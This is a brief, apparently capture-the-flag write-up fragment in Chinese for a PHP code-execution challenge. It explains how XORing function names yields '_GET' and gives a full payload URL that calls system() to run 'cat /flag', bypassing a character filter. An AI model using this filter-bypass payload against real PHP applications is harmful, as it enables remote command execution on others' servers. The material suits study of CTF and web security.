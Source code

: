 在运行结果中找到_GET即可，构造payload

> is_nan^64==>_G
>
> tan^15==>ET

```php
/?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag
```

